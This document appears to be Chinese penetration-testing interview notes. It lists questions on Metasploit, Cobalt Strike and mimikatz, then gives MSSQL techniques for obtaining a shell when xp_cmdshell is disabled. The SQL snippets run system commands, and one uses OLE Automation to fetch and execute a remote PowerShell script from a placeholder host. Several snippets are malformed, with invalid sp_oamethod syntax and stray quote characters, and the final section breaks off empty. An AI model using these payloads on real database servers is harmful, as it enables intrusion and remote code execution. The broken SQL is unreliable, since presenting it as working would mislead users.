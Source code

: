 ### **工具**

```markdown

msf 这个工具吗？假如现在有一个已经被我们用msf控制的机子（在metepreter>下了），该如何进行内网渗透呢？
msf 常用模块有哪些
简述MSF的模块和其作用
msf 和 cs 联动做过吗，介绍一下
msf里面的 sock4a 和 sock5 有什么区别
CS 常使用的功能有哪些
有使用 CS 做过免杀吗
CS 上线 Linux 一般你怎么做的？有了解过 CrossC2 吗
cs有无二开，cna脚本写过么
Nmap 端口扫描技术原理
Nmap、msf 半握手和全握手实现
mimikatz 会用来干什么
mimikatz 原理
mimikatz 的 windows 版本,高版本如何使用？
```



## web渗透
### 1. MSSQL如果XPCMDSHELL不能用怎么拿SHELL
差异备份写入webshell、日志备份写入getshell
sp_oacreate 提权、xp_regwrite提权、JobAgent提权、CLR提权、沙盒提权
#### 1. 使用sp_oacreate执行系统命令:
```plsql
EXEC sp_oacreate 'cmd', 'cmd';  
EXEC sp_oamethod @cmd='-c', @cmd_0= 'dir';
EXEC sp_oamethod @cmd='-c', @cmd_0= 'whoami';
EXEC sp_oamethod @cmd=NULL, @cmd_0=NULL;  
EXEC sp_oadestroy @cmd;
```

#### 2. 使用OPENROWSET读取文件内容执行命令:
```plsql
SELECT * FROM OPENROWSET('SQLNCLI', 'Server=127.0.0.1;Trusted_Connection=yes;', 
     'EXEC xp_cmdshell ''cmd.exe /c whoami''')
```
#### 3. 使用Linked Server连接另一个MSSQL服务器执行xp_cmdshell:
```plsql
EXEC ('xp_cmdshell ''whoami'' ') AT [linkedservername]
```
#### 4. 如果有权限的话可以直接执行扩展系统存储过程:
```plsql
EXEC xp_regread 
EXEC xp_dirtree
EXEC xp_subdirs
EXEC xp_fileexist
```
#### 5. 利用OLE Automation执行PowerShell脚本:
```plsql
DECLARE @shell INT;  
EXEC sp_OACreate 'wscript.shell', @shell OUT;   
EXEC sp_OASetProperty @shell, 'run', 'powershell -c "IEX (New-Object Net.WebClient).DownloadString( ́ ́http://ip/shell.ps1 ́ ́)"';   
EXEC sp_OAMethod @shell, 'run'; 
EXEC sp_OADestroy @shell;
```
#### 6.xp_regwrite提权
1. 首先检查是否有xp_regwrite和服务器本地管理员权限,如果没有则无法提权:
```plsql
```